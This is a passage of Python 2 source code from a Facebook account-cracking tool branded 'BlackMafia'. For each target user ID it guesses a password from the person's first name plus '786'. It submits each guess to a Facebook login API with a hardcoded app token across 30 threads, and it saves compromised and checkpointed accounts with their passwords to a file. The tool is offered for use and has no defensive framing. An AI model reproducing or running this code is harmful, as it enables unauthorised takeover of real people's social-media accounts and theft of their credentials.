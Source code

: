 															print '\x1b[1;94mCheckpoint\x1b[1;97m-\x1b[1;91m▬\x1b[1;97m-' + user + '-\x1b[1;91m▬\x1b[1;97m-' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + '786'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;92m▬\x1b[1;97m-' + user + '-\x1b[1;92m▬\x1b[1;97m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;94mCheckpoint\x1b[1;97m-\x1b[1;91m▬\x1b[1;97m-' + user + '-\x1b[1;91m▬\x1b[1;97m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;94mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"
	print "  \033[1;94m«---•◈•---Developed By love-Hacker--•◈•---»" #Dev:love_hacker
	print '\033[1;94m✅Process Has Been Completed Press➡ Ctrl+Z.↩ Next Type (python2 World.py)↩\033[1;97m....'
	print"\033[1;91mTotal OK/\x1b[1;94mCP \033[1;97m: \033[1;97m"+str(len(oks))+"\033[1;97m/\033[1;97m"+str(len(cekpoint))
	print """
             
             ──────╔═══════╗──────
             ▒▓▒▓▒▒║░░░║░░░║▒▒▓▒▓▒
             ▒▓▒▓▒▒║░░░╬═░░║▒▒▓▒▓▒
             ▒▓▒▓▒▒║░░░░░░░║▒▒▓▒▓▒
             ──────╚═══════╝──────    
             Checkpoint ID Open After 7 Days
•\033[1;97m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.
: \033[1;94m .....Aziz 420 Kali.linux....... \033[1;97m :
•\033[1;97m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.' 
                WhatsApp Num
	raw_input("\n\033[1;97m[\033[1;94mBack\033[1;97m]")
	menu()

if __name__ == '__main__':
	login()
